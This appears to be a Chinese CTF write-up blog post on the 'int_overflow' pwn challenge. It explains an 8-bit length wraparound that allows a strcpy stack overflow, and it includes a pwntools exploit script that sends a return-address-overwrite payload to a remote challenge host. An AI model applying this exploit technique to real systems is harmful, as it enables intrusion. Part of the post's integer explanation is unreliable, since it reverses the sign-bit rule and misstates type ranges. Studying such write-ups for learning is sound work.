 <!--yml
category: 未分类
date: 2022-04-26 14:39:14
-->

# CTF|pwn栈溢出题目int_overflow解题思路及个人总结_一个不融化的雪人的博客-CSDN博客_ctfpwn栈溢出

> 来源：[https://blog.csdn.net/skyattractive/article/details/106459465](https://blog.csdn.net/skyattractive/article/details/106459465)

# CTF|pwn栈溢出题目int_overflow解题思路及个人总结

## 解题思路

拿到题目，标题是int_overflow 指可能是某个int型变量存在栈溢出，留意下
![在这里插入图片描述](img/c085246fdd4c910b0f6fd564798fbbbe.png)
老规矩将题目拖到IDA放入ubuntu中查看相关信息
![在这里插入图片描述](img/a2185f62f7d849b702a107b1492f88c1.png)*
**stack/canary保护没开**
ubuntu运行一下
![在这里插入图片描述](img/649c968f087c09d6f17de8731b25612e.png)
简单的选择登陆 输入账号密码 返回结果
![在这里插入图片描述](img/ac11672b0ccff9a1b0971c88f76a0e59.png)
拖入IDA 反编译 查看main函数
进入login函数
![在这里插入图片描述](img/f0bf9ae85cd62fd73e53bd3818efe3f9.png)

login中定义两个变量buf和s，所给的栈的大小都很大，不存在栈溢出
我们继续进入check_passwd函数
![在这里插入图片描述](img/26228de4af2ab8b88d520b083eec4b78.png)
这个函数只要是核对密码的过程，得到如下的信息：

1.  定义的v3大小为8bits，讲s的长度赋给v3
2.  v3 需要在3-8之间
3.  函数讲s复制给dest里面 dest在栈占0x14的位置
4.  v3作为一个int，**可以存在***整数溢出*的情况（后面总结）然后复制到dest变量的时候占满0x14的空间后**发生溢出**

编写exp如下：

```
from pwn import*
p = remote('124.126.19.106',38049)

sys_addr = 0x0804868B

payload = 'a'*0x14 + 'aaaa' + p32(sys_addr) + 'a' *234

p.recvuntil("choice:")
p.sendline("1")
p.recvuntil("username:")
p.sendline("123")
p.recvuntil("passwd:")
p.sendline(payload)

p.interactive() 
```

## 个人总结

首先将exp各部分解释一下

导入pwn模块 设定题目场景
sys_addr从IDA中可以看到
![在这里插入图片描述](img/76c5651e0dcbce4b5065a8416f3c760e.png)
即调用到了这个函数 我们就可以得到flag

后半部分的recvuntil() 和 sendline()就根据整个文件的流程走

主要是`payload`的书写

前面提到int型变量`v3`可能存在整数溢出的情况我们先来看看各种整数的类型的大小

整数分为`有符号`和`无符号`两种类型，有符号数以最高位作为其符号位，即正整数最高位为 `1`，负数为 `0`，无符号数取值范围为非负数，常见各类型占用字节数如下：

| 类型 | 占用字节及取值范围 |
| --- | --- |
| int | 4 -2147483648~2147483648 |
| short int | -32768~32768 |
| long int | -2147483648~2147483648 |
| unsigned int | 0~4294967295 |
| unsigned short int | 0~65537 |
| unsigned long int | 0~4294967295 |

可以看到不同类型的整型变量是有不同的取值范围的，我们输入的值如果在合理范围的话就没事，但是如果输入的值超过了取值范围的话，会发生溢出
**针对溢出**：计算机会默认取输入值得后面部分 例如对于8bit的int型取值是在-255~255，如果输入256的话，255对应二进制是`1111 1111` 而256对应二进制`1 0000 0000` 计算机遇到256时就会默认去后面的部分即`0000 0000` 所以256会被认作是`0` 同理257是`1` ，258是`2`… …

有了这样的原理对于v3我们可以输入259~264中的其中一个数，符合`8>v3>3`的要求，从而构造payload

而payload中间填充四个a是因为![在这里插入图片描述](img/67765a11f27564a4619ae8068963ad9d.png)
strcpy函数调用过程将s与dest压入栈 ，但是最后还执行了leave操作，最多覆盖4字节 所以payload中要填充4个a

234 = 262（这里取262） - 0x14 -4 -4
执行

```
python int_overflow.py 
```

得到flag
![在这里插入图片描述](img/fa42d505cafb22865ae860d27f669975.png)

博客内容仅是个人学习对知识的理解，如有不对的地方欢迎指正

期待与你的共同进步：）